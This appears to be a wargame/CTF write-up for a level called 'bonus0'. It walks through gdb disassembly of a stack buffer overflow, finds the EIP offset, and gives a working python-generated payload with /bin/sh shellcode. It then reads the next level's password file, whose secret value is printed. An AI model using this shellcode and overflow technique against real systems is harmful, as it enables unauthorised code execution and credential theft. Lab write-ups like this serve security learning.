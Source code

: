 ## bonus0
In `bonus0` we will find three functions`p() pp() main()`<br>
The `main()` will set the stack to `sub    esp,0x40` and will create a *__buffer[42]__* `( eax,[esp+0x16])` and after that `main()` will call a function called `pp(buffer)` and will pass this *buffer[42]* as parameter.<br>
The function `pp()` will create two buffers also that we will call *str1 & str2*
```
0x0804852e <+16>:	lea    eax,[ebp-0x30]
0x08048541 <+35>:	lea    eax,[ebp-0x1c]
```
Pay special attention to the gap between those two __addresses__

|0x30 - 0x1c = 0x14|
|-|
|Those `0x14 (20) bytes` is where the exploit will be made|

Following there will be two call to a funtion called `p()`, this function takes in two parameters `p(param1, param2)` the first parameter will will be the *str1* in the first call and *str2* on the second call, and the second parameter in both calls will be the string <br> `" - "`

|p(str1, " - ")|
|-|
|p(str2, " - ")|

The function `p()` will call `puts()` on her second argument and define a buffer of 4096 <br> ` 0x080484c8 <+20>:	mov    DWORD PTR [esp+0x8],0x1000` <br>
again pay attention here because in this buffer we will have to store our *shellcode* <br>
After that a call to `read()` will be made for getting an input from the user, this input will be stored in this *buffer[4096]* that is being stored at
```
=> 0x080484d0 <+28>:	lea    eax,[ebp-0x1008]

(gdb) x/x $ebp-0x1008
0xbfffe640:	0x00000000  <-- Kid pay attention to this address, it's gold :p
```
Just after the read we will find the *exploit*, there will be a call to *strchr(buffer, 0xa)* this value is 10 and in the ascii table represents the `\n` and after finding this character *(probably when we hit enter after entering the input in the keyboard)* the program will place at the __address__ returned by `strchr()` the `\0` NULL end of string. <br>
Next a call to `strncpy()` is made to copy `20 bytes` from the *buffer[4096]* to the first parameter passed to `p(str1, " - ")` and this *str1* from function `pp()` is only `20 bytes` behind the second *str2* that will be passed on the second call to `p()`, so if there is no `\0` in the *str1* it will go over the *str2* and when the function `strcpy()` is called in function `pp()` with this *str1* to be copied to the string passed to `pp(bufferFromMain())` as a parameter from `main()` that is only `42 bytes` long, if the string is large enough it will overwrote the __address__ `eip` is pointing to in `main()`  

After some tests we find our *offset* as a value of `9`
```
-
AAAAAAAAAAAAAAAAAAAA
-
BBBBBBBBBBCCCCCCCCCC
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBCCCCCCCCCC�� BBBBBBBBBBCCCCCCCCCC��  <-- here with 10 B we still have one 42 at the address
0x43434342 in ?? () <-- the last 42 it's the 10th B

-
AAAAAAAAAAAAAAAAAAAA
-
BBBBBBBBBCCCCCCCCCCC
AAAAAAAAAAAAAAAAAAAABBBBBBBBBCCCCCCCCCCC�� BBBBBBBBBCCCCCCCCCCC�� <-- here with 9 B the address of the $eip is set to 0x43434343 that is the C
0x43434343 in ?? () <-- offset equal 9

(gdb) i r
eax            0x0	0
ecx            0xffffffff	-1
edx            0xb7fd28b8	-1208145736
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff700	0xbffff700
ebp            0x42424242	0x42424242
esi            0x0	0
edi            0x0	0
eip            0x43434343	0x43434343    <--- the eip is overwrote, here we need to put the address of the buffer[0x100] with our shellcode
eflags         0x200286	[ PF SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```
The idea here is to put our *shellcode* from `leve2` as the first parameter *(here we need to write at least 20 random characters to pass the `strncpy(20)` function and allow us to write more in the buffer and overflow the eip, to make the buffer without the `\0` )* and with the *offset* we found above we pass 9 random character plus an address somewhere where our first string is stored, here I choose *0xbfffe680* that is 64 bytes from the start of our buffer *0xbfffe640* remember from the stack on main ?<br>
`0x080485aa <+6>:	sub    esp,0x40` <br>
This is exactly `64 bytes` and that's the way we overwrote the eip to call our *shellcode* stored at __address__ *0xbfffe640*
Here is the payload
```
(python -c "print('A' * 42 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80')"; python -c "print('B' * 9 + '\x80\xe6\xff\xbf' + 'C' * 7)"; cat) | ./bonus0

 -
 -
AAAAAAAAAAAAAAAAAAAABBBBBBBBB����CCCCCCC�� BBBBBBBBB����CCCCCCC��
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
